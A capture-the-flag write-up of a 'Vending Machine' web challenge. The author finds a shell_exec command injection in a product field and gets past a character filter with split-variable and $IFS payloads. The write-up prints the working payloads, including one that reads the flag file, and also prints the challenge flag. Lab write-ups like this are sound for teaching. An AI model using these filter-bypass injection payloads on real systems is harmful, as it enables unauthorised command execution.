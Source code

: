 ```yaml
---
tags:
  - "#fleeting"
links:
  - "[[MOC WriteUps]]"
---
```


![](20241103010504.png)

# Vending Machine
First we try writing soda to understand how it works. When u right soda/chips it prints “dropping soda/chips…”. and the product img is dropping from the vending machine pic.
![](20241102065209.png)

Then i tried to see the source and i found a JS file that contains where `product` is a map for some defined products (where they their images on the server)
```javascript
setTimeout(async () => {
// Wait for PHP response
const response = await sendProduct(input);
		output.innerHTML = response; // Show PHP response
		item.style.transform = "translateY(0)"; // Reset position for next drop
		setTimeout(() => item.style.display = "none", 1000); // Hide item after a second
	}, 2000); // Time it takes to drop the item
	if (products[input.toLowerCase()]) {
		output.innerHTML = `Dropping ${input}... ðŸ¥³`;
		// Show item and animate drop
		item.style.display = "block"; // Show the item
		item.innerHTML = `<img src="${products[input.toLowerCase()]}" alt="${input}">`; // Set image source
		// Move item up to simulate dropping down
		item.style.transform = "translateY(-60px)"; // Move up to simulate dropping down
	} 
	// Clear input field
	document.getElementById('product-input').value = '';
}
// Function to send product to PHP and return response
async function sendProduct(product) {
    const response = await fetch('drop-item.php', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
        },
        body: `product=${encodeURIComponent(product)}` // Send product name
    });
    if (response.ok) {
        const responseData = await response.text(); // Get the response text
        return responseData; // Return response to be displayed
	} else {
        return "Error communicating with the server."; // Handle errors
    }
}
```
at the first i tried many rabbit holes like XSS and SQLi, i stayed alot trying an SQLi :\ , any way i tried to understand what characher is work and what’s doesn’t, i found that `[<,>,SPACE,+,\,COMMA]` r disappearing when i send to the server.
i tried to inject a php code thinking it may work but i found that when i send `echo` with a non alphabatic after and before it it disappears.
Here i was likely thinking it’s something like a php injection :)
Any way when i searched to understand what NoSQLi is i tried some payloads and it didn’t work at all even the SQLi i used.
Then when i tried to add a null byte `%00` it ruined the app and gave me this
![](20241102070527.png)

As u can see the app is using `shell_exec($command)` where the `$command` is the `product` in our request.
Sooooo i got that there is a command injection here (where i didn’t learn yet).
I tried some basic command and all of them r disappearing, i thought i should use a different type of dealing with the server but there wasn’t.
I tried to find a way to make the command with separating it with something in between that the shell understand it means nothing but i didn’t find anything.
And then i remembered something in Linux that u can call a command when it’s a value of a variable like executing `$VAR` if VAR is a command it will be executed.
Soooo let’s separate our commands into 2 vars and see what’s happening.
i sent this payload `f=l;l=s;$f$l` and it responed with this
```text
f=l;l=s;$f$l is not available Dockerfile
assets
docker-compose.yml
drop-item.php
entrypoint.sh
index.html
script.js
styles.css
```
Hehehe 😍, now the game is on.
But wait… we still can’t separate the space : | , i searched alot on how to get an alterative to the space in linux shell then i found `$IFS`, then i tried to add a word after the variable to make it work well so i used `$IFS"arg"` and it worked well.
So when catting `entrypoint.sh` we found there this script 
```shell
#!/bin/sh
echo "$FLAG" > /home/apache/flag && chmod 644 /home/apache/flag && apache2-foreground
```
Now we can peacfully get the flag by `f=ca;l=t;$f$l$IFS"/home/apache/flag"` 
![](20241102071920.png)

The flag: `CYCTF{C1luQGN9pX6LsTDdJKsAb_KWSBYKw4Q08tW0fii6jrStt319uC3PolHeR8joQYnvZTn4SRESYI3JWhWww70Hcm4xzj7kg33tZ0pYG35uQTGuFw}`

